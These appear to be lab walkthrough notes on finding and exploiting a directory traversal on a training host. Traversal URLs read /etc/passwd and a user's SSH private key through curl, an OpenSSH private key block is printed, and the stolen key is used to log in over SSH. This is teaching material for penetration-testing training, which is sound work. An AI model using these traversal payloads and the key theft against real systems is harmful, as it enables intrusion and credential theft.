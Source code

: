 # Identifying and Exploiting Directory Traversals

Example of a link
>``` shell
>https://example.com/cms/login.php?language=en.html
>```

Contents of /etc/hosts
>``` shell
>127.0.0.1       localhost
>127.0.1.1       kali
>192.168.50.16   mountaindesserts.com
>...
>```

Entire URL of our Directory Traversal attack (1)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
>```

Entire URL of our Directory Traversal attack (2)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>```

SSH Private Key via curl
>``` shell
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
>BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
>...
>lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
>bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
>...
># =====================================
>```

Using the Private Key to connect via SSH
>``` shell
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
>
># ========== Expected Result ==========
>...
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>Permissions 0644 for '/home/kali/dt_key' are too open.
>It is required that your private key files are NOT accessible by others.
>This private key will be ignored.
>...
># =====================================
>
>kali@kali:~$ chmod 400 dt_key
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>...
>offsec@68b68f3eb343:~$ 
># =====================================
>```
